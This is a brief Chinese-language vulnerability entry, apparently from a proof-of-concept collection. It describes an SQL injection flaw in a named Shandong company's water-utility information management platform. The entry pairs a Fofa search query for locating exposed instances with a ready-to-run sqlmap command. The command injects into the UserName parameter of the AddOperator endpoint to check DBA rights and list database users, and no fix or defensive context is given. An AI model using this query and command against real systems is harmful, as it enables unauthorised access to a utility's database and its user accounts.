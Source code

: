 ### K8-11山东潍微科技股份有限公司水务信息管理平台存在sql注入漏洞

<u></u>





### 漏洞描述：山东潍微科技股份有限公司是一家以技术开发为主体的民营科技企业，专业致力于远传水、电、气、热四表及抄表系统的研发、生产与销售。



### Fofa语句：title="山东潍微科技股份有限公司 - 水务信息管理平台"



### 漏洞复现：

```sqlmap
Python sqlmap.py "http://172.0.0.1:6637/OperatorManager/AddOperator?operId=0&pointList=56&RoleName=3&Company=1&CustomDev=%E6%98%AF&DevList=56&_=1722235624980&UserName=abc" -p UserName --is-dba --users
```


